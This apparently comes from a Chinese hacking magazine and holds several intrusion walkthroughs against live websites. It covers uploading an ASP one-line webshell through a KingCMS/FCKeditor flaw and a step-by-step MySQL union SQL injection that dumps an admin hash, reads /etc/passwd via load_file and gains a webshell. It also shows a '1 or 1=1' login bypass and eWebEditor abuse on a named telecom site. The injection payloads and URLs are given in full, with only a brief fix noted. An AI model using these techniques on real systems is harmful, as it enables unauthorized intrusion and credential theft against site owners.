







打开 KingCMS 上传漏洞利用工具，在网址栏输入：`http://www.***pn.cn`，由于针对的是 5.0 以前的版本，后台目录使用默认的就行了，“文件名称”就是你上传的 asp 木马的名字。

“什么内容”当然就是你选用的 asp 木马了，我使用的是一句话木马，点击“上传木马”，就可以上传成功了，如图 5。工具也详细地告诉了我们上传的木马地址为 `http://www.**pn.cn/admin/up_files/File/top.asp`，我们使用一句话木马的客户端进行连接，webshell 就得到了，如图 6。

对于最新的 5.0 版本，我稍微看了一下，发现这个漏洞依然是存在的，看来新版本只是对其它文件上做了改进，并没有影响到该漏洞的利用。但是在利用的时候，你需要注意后台目录要改成 `admin/system`，其它的步骤就一样了。我以“Powered by KingCMS 5.0”为关键字搜索了几个 5.0 版的网站进行测试，也同样上传成功得到了 webshell，如图 7。

关于这个漏洞的详细利用我们就介绍到这儿，对于使用这套系统的朋友，暂时的补救方法可以将 config.asp 文件中的 ConfigIsEnabled 参数后面的值改为 False，这样就可以将 FCKeditor 的文件上传功能关闭，漏洞自然也就没有了，当然也可以打上官方提供的补丁程序。

## 和我一起进行 PHP 渗透



最近一直比较关注 PHP 注入的东西，学习好几天了也应该实践一下，所以我将目标锁定在 `http://app.xxxx.com` 这一市场调查的门户网站，至于如何寻找注入点，还是使用我们可爱的搜索引擎！

在 google 中搜索“php?id= site:xxx.com”，意思就是搜索“xxx.com”网站中包含“php?id=”的 URL，还真让我找到了一个 `http://app.xxx.com/cati/article_literature.php?id=11`。打开后吓我一跳，它页面本身就存在错误，直接给出来了绝对路径，如图 1。




`/data01/www/cati/articl_literature.php` 就是数据库地址，通过路径可以得知这是台 Linux 主机（简单介绍一下 Linux 的文件结构：Linux 呈树形结构，“/”为根目录，“/bin”系统所需要的命令存在此目录，有点类似于 Windows 的“system32”目录，“/etc”存放系统的配置文件，“/etc/passwd”可是保存着账户信息哦，“/home”为普通用户文件，一般 web 目录会在“/home”下）。来判断一下是否可以进行注入：在网址后添加“and 1=1”，提交后返回正常；添加“and 1=2”，提交后返回错误，说明存在注入漏洞。然后我们判断数据库，不出意外的话应该是 mysql，这可就是说中的 LMAP 环境（L=Linux M=Mysql A=Apache P=Php）。

我们打开 `http://app.xxx.com/cati/article_literature.php?id=11/*`，在后面加上“/*”，返回正常则说明是 Mysql，因为“/*”是 Mysql 的注释标记，不会影响语句的正常运行。结果返回正常，确定是 Mysql 数据库。再来检测一下 Mysql 的版本，4.0 以上支持 union 联合查询，而且一般网站也都会使用 4.0 及以上的版本，因为 Mysql 是开源的数据库，不收费的，不更新到最新版本岂不是太浪费了。

打开 `http://app.xxx.com/cati/article_literature.php?id=11 and ord(mid(version(),1,1))>5/*`，正如我所料，果然是 4.0 以上的版本。我们来探它的字段，打开 `http://app.xxx.com/cati/article_literature.php?id=11 order by 10`，如图 2。

返回了错误，说明字段小于 10，实际上我是从 20 依次判断下来的，当我 `order by 9` 的时候返回了正常，如图 3。

这说明它有 9 个字段，知道了它的字段，就来凑它的管理员吧。得到了它的字段数就可以构造成下列语句“and 1=2 union select 1,2,3,4,5,6,7,8,9”，依次类推，如果是 20 就写“and 1=2 union select 1-20”。我们继续，打开 `http://app.xxx.com/cati/article_literature.php?id=11 and 1=2 union select 1,2,3,4,5,6,7,8,9`，出现了一些数字，如图 4。



出现这些数字的地方，一会儿会出现我们想要的东西，现在再来暴下它的表段，我们在原有语句的后面加上“from XXXX”，如果返回正常就说明存在这个表段，返回错误就说明不存在这个表段，对于各表段的测试返回结果如下所示：

```text
http://app.xxx.com/cati/article_literature.php?id=11 and 1=2 union select 1,2,3,4,5,6,7,8,9 from admin   返回错误
http://app.xxx.com/cati/article_literature.php?id=11 and 1=2 union select 1,2,3,4,5,6,7,8,9 from user    返回错误
http://app.xxx.com/cati/article_literature.php?id=11 and 1=2 union select 1,2,3,4,5,6,7,8,9 from m_admin 返回正常
```

从返回结果可以看出存在 m_admin 表段，如图 5。


好了，有了表名了，我们可以来爆它的字段名了……在网页中所对应的数字位置就会出现 passwd 的内容，也就是我们想要的密码了……最后确定了两个字段，一个为 password，一个为 id……数字 2 和 8 的位置出现了我们想得到的信息，如图 6。


可惜的是没有检测到用户名的字段，不过没关系，感觉应该是 admin 或 administrator……现在来破解一下这个 32 位的 MD5 密码，看看是不是弱口令，我们到 `www.cmd5.com` 进行查询，如图 7。


经典的 123456 密码重现江湖，接下来我们找后台……

它就丢给了我管理地址和 phpmyadmin 的地址。原来是 robots.txt 暴露了信息……可以在网站目录下创建 robots.txt，里面写不想被搜索引擎抓取的页面和目录即可……如图 8。

```txt
User-agent: *
Disallow: /db/
Disallow: /My_Db_3000/
Disallow: /libs/
Disallow: /new/
Disallow: /pvlogs/
Disallow: /information/admin/
Disallow: /information/includes/
Disallow: /information/myinfo/
Disallow: /charge-report/buyreport/
Disallow: /job/co/
Disallow: /job/my/
```




大家经常注入 ASP 或 ASPX 的站点……那么 Mysql 里有没有这么至高无上的账户呢？当然有的，但那不叫 sa，而是叫 root……我们先来判断一下是不是 root 账户吧，判断语句是“and ord(mid(user(),1,1))=114/*”……很不幸，返回了错误，账户不是 root，如图 10。

再来判断一下当前账户对文件有没有读写权限吧……其实 MYSQL 的所有用户都是可以调用 load_file 的，只不过要看这个用户对这个文件或目录有没有权限了，关于 UNIX/Linux 的权限设置，大家可以去网上找找相关的文章研究一下。

## 一个人的战争


图10

我们刚才爆出来的路径，直接读“/data01/www/cati/article_literature.php”，文件的顶端会有数据库调用的文件，如图13。

然后我们去读取 mysql.php 这个文件，这个文件相当于 mssql 的 CONN 文件。现在就去读这个文件，寻找可爱的 MYSQL 密码吧，如图14。

```php
<?php
require_once("../includes/config.php");
require_once("../includes/mysql.php");
require_once("../includes/function.inc.php");
$db   = new DB_MySQL();
$link = $db->connect();
```

图13

我们继续，通过“(select count(*) from mysql.user)>0 /*”检测有没有读写权限，提交“http://app.xxx.com/cati/article_literature.php?id=11 and (select count(*) from mysql.user)>0 /*”，返回结果如图11所示。


图11


图14

有读写权限，我们使用 PHP 文件读取器来证实一下吧。软件默认读取“/etc/passwd”（为了让小菜更好地明白，我还是给出查询语句：“http://app.xxx.com/cati/article_literature.php?id=11 and 1=2 union select 1,2,3,4,5,6,7,load_file(0x2F6574632F706173737764),9”。括号里面是“/etc/passwd”转换的十六进制编码，因为“/”在 URL 中会被转义，所以把“/etc/passwd”转换成了十六进制），结果如图12所示。

“可以读取 /etc/passwd，应该没什么问题了，还记得我成功地读出了 mysql 密码。我们可以登录 phpMyAdmin，然后就可以使用备份的方法来获取 webshell 了，如图15。


图15



图12

（文章中涉及到的工具 PHP 文件读取器已经收录在光盘中）

## 小编点评

现在的 PHP 站点越来越多，ASP 已经随着时间的推移在慢慢退出 WEB 这个舞台。PHP 的安全问题逐渐被人们所重视，而作者本文中借用一个站点存在的注入漏洞，配合 PHP 脚本及服务器上的一些默认疏漏，成功而完美地入侵，带给我们的不仅仅是一个结果。

在此过程中，相信大家也会学到类似 root 权限区别于 sa 权限，以及 union 查询的一些技巧。当然 PHP 中还有更多的秘密等待着大家去揭示……

## 小菜巧遇电信网站漏洞之后

hack1st

### 一、发现漏洞

最近家里网速一直很慢，跑到电信网站上留言，也一直没有答复。唉，随便看看吧。打开一篇文章，发现是“.asp?id=654”的格式，就习惯性地在网址后面加了个“'”，没想到竟然返回了熟悉的错误信息。难道电信网站也存在这样的注入漏洞吗（图1）？



于是我连忙拿出阿D对网站进行了一番检测，果真存在一个注入点（图2）。


双击注入点对其进行检测，点完“检测”后返回了一些注入点的信息，发现为“Access 数据库”，然后点“检测表段”对数据库里的表段进行猜测。不过它的表名很特殊，而阿D的表名单里没有的表段就检测不出来了，所以我们只检测出了一个表“news”，这个表段通常是没有利用价值的（图3）。

### 二、小试身手

没有系统表段是很难找到管理员的账号和密码的。既然这样我们就先找它的后台地址吧。在阿D的“管理员入口检测”里填上网址地址，然后点“检测管理员入口”，它就会对后台地址进行逐行帮测，幸运的话就会给你列出来（图4）。




http://www.lytele.com/manage/login.asp 就是后台的地址。

让我们访问一下看看，需要用户名和密码，可我们还没有得到呢，该怎么办呢？不要灰心，在用户名和密码里都输入“1 or 1=1”试试，点“登录”后是否发现已经进去了（图5）？没错，这都是因为对方的后台登录验证不严格所造成的。后台的功能很少，基本上只有添加文章和添加用户这两个主要功能。点“添加新闻”看看，文章编辑系统正是我们喜欢的 eWebEditor（图6），这样一来想获取 WebShell 就有希望了。


点击保存就可以把它的数据库下载下来了，然后使用“辅臣数据库浏览器”（或 MS ACCESS）打开刚才下载的数据库文件，就能在 eWebEditor_system 表里找到管理员的账号和密码了（图9）。

> **小知识**  
> eWebEditor 是基于网页的、所见即所得的在线 HTML 编辑器。它能够在网页上实现许多桌面编辑软件（比如 Word）所具有的强大可视编辑功能，目前被广泛应用到网站后台“添加文章”的地方。由于有些程序采用了 eWebEditor 但网站管理员并不知道，致使没有更改 eWebEditor 的后台默认密码，或虽改了密码但没有更改默认数据库地址，使得网站存在了很大的安全隐患，所以该编辑器很受广大黑客喜爱。



eWebEditor 默认是不允许上传 ASP 文件的，但是它还带有后台管理系统可以修改允许上传的类型。我们在 http://www.lytele.com/manage/ 后面加上“/editor/admin_login.asp”，这就是 eWebEditor 的管理登录页面。试着输入默认的用户名和密码“admin”，提示错误，看来管理员修改了密码（图7）。


